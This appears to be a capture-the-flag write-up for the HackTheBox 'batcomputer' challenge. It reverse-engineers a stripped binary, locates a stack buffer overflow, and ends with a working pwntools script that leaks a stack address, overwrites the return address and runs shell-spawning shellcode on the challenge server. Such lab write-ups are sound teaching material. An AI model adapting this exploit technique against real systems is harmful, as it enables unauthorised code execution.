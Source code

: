 `File` command on the binary shows that it is stripped, meaning there are no debug symbols present. A stripped binary makes it more difficult to reverse engineer and the main function will be harder to find.

```assembly
# file batcomputer | tr "," "\n" 
batcomputer: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=497abb33ba7b0370d501f173facc947759aa4e22
 for GNU/Linux 3.2.0
 stripped
```

```assembly
# checksec batcomputer           
[*] '/root/Downloads/hackthebox/challenge/batcomputer/batcomputer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Because the binary is stripped we cant simply go to the main function. A simple work around is to look at the strings to see if we have encountered them before. In Ghidra, the strings window can be displayed by going to Window > Defined Strings. The screenshot above shows the string “Welcome to your Bat Computer.” selected. Following this string we land on what looks like our main function, FUN_001011ec (this may be different on your computer)




![image](https://user-images.githubusercontent.com/63084488/140466459-32617dda-1208-423c-aa91-4c77843b1d31.png)


In order to make analysis easier, the variables have been renamed to better reflect their purpose. One of these variables `local68` is `user_choice` whose value determines which message/prompt to show the user. On line 18 user_choice is compared with integer 1, if equal, the memory address of the nav_command buffer is printed using printf. If instead user_choice is 2, a password is requested and stored into user_pass using scanf. Line 24 clearly shows the password being compared to the string `b4tp@$$w0rd!`. If the passwords do not match the program terminates with `exit()`. If the passwords do match, however, the user is asked to provide their commands which are then stored within the nav_commands buffer, the same buffer whose address was printed in option 1. The string “Roger that!” is printed and the function loops back to the beginning. If user_choice are neither 1 nor 2, the binary prints a “Too bad” message and returns 0, finishing execution.

There is buffer overflow vulnerability within the `read call` on line 32. 0x89 (137) bytes are read from standard input into a buffer that is only allocated `76 bytes`. This gives us enough space to overwrite the return address. We have to figure out the number of bytes between the start of our navigation commands input and the return address. We can do this using GDB.



exploit
```python
#!/usr/bin/python3

from pwn import *

def main():
    context.log_level='DEBUG'
    context.update(arch='amd64', os='linux')
    p = remote('docker.hackthebox.eu',31132)
    log.info("lets solve")

    # leak address of my buffer
    p.recvuntil('>')
    p.sendline('1')

    leak_address = p.recvline().split()[-1]
    leak_address = int(leak_address,16)
    log.success(f'leak_address: {hex(leak_address)}')

    # send evil payload
    # payload + eip + shellcode

    padding = b'A' * 84

    shellcode  = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    shellcode += b"\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    shellcode += b"\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    shellcode += b"\x3b\x0f\x05"

    buffer = flat (
            padding,
            p64(leak_address + 84+8),
            shellcode
            )

    p.recvuntil('>')
    p.send('2')
    p.recv()
    p.sendline('b4tp@$$w0rd!')
    p.recvline()
    p.send(buffer)

    # trigger buffer overflow
    p.recvline()
    p.sendline('3')

    p.interactive()

if __name__ == '__main__':
    main()
```
